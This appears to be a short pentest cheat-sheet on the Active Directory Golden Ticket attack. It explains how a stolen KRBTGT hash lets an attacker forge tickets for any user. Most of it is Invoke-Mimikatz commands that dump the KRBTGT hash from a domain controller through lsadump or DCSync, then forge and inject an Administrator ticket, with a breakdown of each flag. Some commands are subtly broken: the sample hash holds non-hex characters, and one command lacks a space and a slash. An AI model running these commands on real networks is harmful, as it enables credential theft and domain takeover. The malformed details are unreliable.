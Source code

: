 A Golden Ticket attack involves an attacker gaining control of the KRBTGT hash and using that to forge valid TGTs in the domain.
A TGT can be forged for any user if the KRBTGT hash is obtained. 

This attack involves using Invoke-Mimikatz to create the TGTs.


```powershell
#Execute mimikatz on DC as DA to get krbtgthash
Invoke-Mimikatz -Command '"lsadump::lsa/patch"' –Computername example-dc 


#On any machine 
Invoke-Mimikatz-Command '"kerberos::golden /User:Administrator /domain:example.local /sid:S-1-5-21-1874506631-3219958514-538503648 /krbtgt:ff46a9d8bd66c6efd77603da26799hbn id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"' 


#To use the DCSyncfeature for getting krbtgthash execute the below command with DA privileges:
Invoke-Mimikatz -Command '"lsadump::dcsync /user:example\krbtgt"'
#Using the DCSyncoption needs no code execution (no need to run Invoke-Mimikatz) on the target DC. 
```

Breakdown of Invoke-Mimikatz command:
```sh
Kerberos:golden - Name of the module used
/user - The user account which the TGT will be generated for
/domain - domain FQDN
/sid - SID of the domain
/krbtgt - NTLM hash of the krbtgt account, /aes128 and /aes256 can be used also
/id,/groups - User ID and Group ID
/ptt - Injects the ticket into the current PowerShell process

/startoffset -  These last 3 options are optional inputs that can be used to match the current domain configuration for tickets
/endin
/renewmax
```